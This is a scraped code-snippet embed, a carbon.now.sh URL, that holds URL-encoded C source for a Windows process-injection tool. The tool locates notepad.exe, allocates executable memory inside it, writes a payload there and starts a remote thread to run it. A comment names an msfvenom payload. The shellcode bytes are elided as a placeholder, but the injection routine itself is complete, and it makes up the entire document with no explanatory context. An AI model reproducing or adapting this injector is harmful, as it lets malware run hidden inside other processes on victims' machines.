   src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=bw&l=text%2Fx-c%2B%2Bsrc&width=768.65625&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=%2523include%2520%253Cwindows.h%253E%250A%2523include%2520%253Cstdio.h%253E%250A%2523include%2520%253Ctlhelp32.h%253E%250A%2523include%2520%253Cstdlib.h%253E%250A%2523include%2520%253Cstring.h%253E%250A%250A%252F%252F%2520msfvenom%2520-p%2520windows%252Fx64%252Fmessagebox%2520TEXT%253D%2522Hello%2520hackers%2522%2520-f%2520C%250Aunsigned%2520char%2520payload%255B%255D%2520%253D%2520%257B%250A%250A%2520%2520%25220xfc%252C0x48%252C0x81%252C0xe4%252C0xf0%252C0xff%252C0xff%252C0xff%252C0xe8%252C0xd0%252C0x00%250A%2520%2520%2520%2520.%250A%2520%2520%2520%2520.%250A%2520%2520%2520%2520.%250A%2520%2520%252F%252F%2520shellcode%2520goes%2520here%250A%250A%257D%253B%250Aunsigned%2520int%2520payload_len%2520%253D%2520340%253B%250A%250A%250Aint%2520FindTarget%28const%2520char%2520*procname%29%2520%257B%250A%250A%2520%2520%2520%2520%2520%2520%2520%2520HANDLE%2520hProcSnap%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520PROCESSENTRY32%2520pe32%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520int%2520pid%2520%253D%25200%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520hProcSnap%2520%253D%2520CreateToolhelp32Snapshot%28TH32CS_SNAPPROCESS%252C%25200%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28INVALID_HANDLE_VALUE%2520%253D%253D%2520hProcSnap%29%2520return%25200%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520pe32.dwSize%2520%253D%2520sizeof%28PROCESSENTRY32%29%253B%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28%21Process32First%28hProcSnap%252C%2520%2526pe32%29%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520CloseHandle%28hProcSnap%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520return%25200%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520while%2520%28Process32Next%28hProcSnap%252C%2520%2526pe32%29%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28lstrcmpiA%28procname%252C%2520pe32.szExeFile%29%2520%253D%253D%25200%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520pid%2520%253D%2520pe32.th32ProcessID%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520break%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520CloseHandle%28hProcSnap%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520return%2520pid%253B%250A%257D%250A%250A%250Aint%2520Inject%28HANDLE%2520hProc%252C%2520unsigned%2520char%2520*%2520payload%252C%2520unsigned%2520int%2520payload_len%29%2520%257B%250A%250A%2520%2520%2520%2520%2520%2520%2520%2520LPVOID%2520pRemoteCode%2520%253D%2520NULL%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520HANDLE%2520hThread%2520%253D%2520NULL%253B%250A%250A%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520pRemoteCode%2520%253D%2520VirtualAllocEx%28hProc%252C%2520NULL%252C%2520payload_len%252C%2520MEM_COMMIT%252C%2520PAGE_EXECUTE_READ%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520WriteProcessMemory%28hProc%252C%2520pRemoteCode%252C%2520%28PVOID%29payload%252C%2520%28SIZE_T%29payload_len%252C%2520%28SIZE_T%2520*%29NULL%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%250A%2520%2520%2520%2520%2520%2520%2520%2520hThread%2520%253D%2520CreateRemoteThread%28hProc%252C%2520NULL%252C%25200%252C%2520pRemoteCode%252C%2520NULL%252C%25200%252C%2520NULL%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28hThread%2520%21%253D%2520NULL%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520WaitForSingleObject%28hThread%252C%2520500%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520CloseHandle%28hThread%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520return%25200%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%2520%2520%2520%2520return%2520-1%253B%250A%257D%250A%250A%250Aint%2520main%28void%29%2520%257B%250A%2520%2520%2520%2520%250A%2509int%2520pid%2520%253D%25200%253B%250A%2520%2520%2520%2520%2509HANDLE%2520hProc%2520%253D%2520NULL%253B%250A%250A%2509pid%2520%253D%2520FindTarget%28%2522notepad.exe%2522%29%253B%250A%250A%2509if%2520%28pid%29%2520%257B%250A%2509%2509%250A%2509%2509%252F%252F%2520Open%2520the%2520target%2520process%250A%2509%2509hProc%2520%253D%2520OpenProcess%28%2520PROCESS_CREATE_THREAD%2520%257C%2520PROCESS_QUERY_INFORMATION%2520%257C%2520%250A%2509%2509%2509%2509%2520%2520%2520%2520%2520PROCESS_VM_OPERATION%2520%2520%257C%2520PROCESS_VM_READ%2520%257C%2520PROCESS_VM_WRITE%252C%250A%2509%2509%2509%2509%2520%2520%2520%2520%2520FALSE%252C%2520%28DWORD%29%2520pid%29%253B%250A%250A%2509%2509if%2520%28hProc%2520%21%253D%2520NULL%29%2520%257B%250A%2509%2509%2509Inject%28hProc%252C%2520payload%252C%2520payload_len%29%253B%250A%2509%2509%2509CloseHandle%28hProc%29%253B%250A%2509%2509%257D%250A%2509%257D%250A%2509return%25200%253B%250A%257D"